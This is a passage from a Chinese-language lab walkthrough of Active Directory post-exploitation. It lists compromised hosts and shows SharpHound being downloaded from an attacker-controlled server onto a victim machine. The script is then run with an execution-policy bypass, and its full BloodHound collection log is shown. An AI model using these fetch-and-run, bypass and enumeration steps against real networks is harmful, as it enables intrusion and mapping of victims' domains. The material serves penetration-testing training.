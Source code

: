 紀錄這些資訊
```
┌──(chw㉿CHW)-[~/beyond]
└─$ cat computer.txt             
172.16.73.240 - DCSRV1.BEYOND.COM  # 可能是網域控制器
172.16.73.254 - MAILSRV1.BEYOND.COM  # 內部郵件伺服器，雙網卡設備
172.16.73.243 - CLIENTWK1.BEYOND.COM  # 目前我們入侵的電腦
```
#### 2. Active Directory 枚舉
使用 BloodHound 掃描 網域內的用戶、電腦和管理員。
```
┌──(chw㉿CHW)-[~/beyond]
└─$ cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1 .
```
```
PS C:\Users\marcus> iwr -uri http://192.168.45.214:8000/SharpHound.ps1 -Outfile SharpHound.ps1
iwr -uri http://192.168.45.214:8000/SharpHound.ps1 -Outfile SharpHound.ps1
PS C:\Users\marcus> powershell -ep bypass
powershell -ep bypass
PS C:\Users\marcus> . .\SharpHound.ps1
. .\SharpHound.ps1
PS C:\Users\marcus> . .\SharpHound.ps1
. .\SharpHound.ps1
PS C:\Users\marcus> Invoke-BloodHound -CollectionMethod All
Invoke-BloodHound -CollectionMethod All
2025-03-18T08:57:54.4374618-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2025-03-18T08:57:54.5468360-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2025-03-18T08:57:54.5468360-07:00|INFORMATION|Initializing SharpHound at 8:57 AM on 3/18/2025
2025-03-18T08:57:54.6093337-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for beyond.com : DCSRV1.beyond.com
2025-03-18T08:57:54.7812108-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2025-03-18T08:57:54.8749602-07:00|INFORMATION|Beginning LDAP search for beyond.com
2025-03-18T08:57:54.8905900-07:00|INFORMATION|Producer has finished, closing LDAP channel
2025-03-18T08:57:54.8905900-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2025-03-18T08:58:25.8281459-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 99 MB RAM
2025-03-18T08:58:37.5781689-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2025-03-18T08:58:37.5937523-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2025-03-18T08:58:37.6718771-07:00|INFORMATION|Status: 97 objects finished (+97 2.309524)/s -- Using 105 MB RAM
2025-03-18T08:58:37.6718771-07:00|INFORMATION|Enumeration finished in 00:00:42.8001829
2025-03-18T08:58:37.7187518-07:00|INFORMATION|Saving cache with stats: 56 ID to type mappings.
 57 name to SID mappings.
 1 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-03-18T08:58:37.7187518-07:00|INFORMATION|SharpHound Enumeration Completed at 8:58 AM on 3/18/2025! Happy Graphing!
```
> 成功執行後，會生成 BloodHound.zip，再將其傳送回 Kali 分析
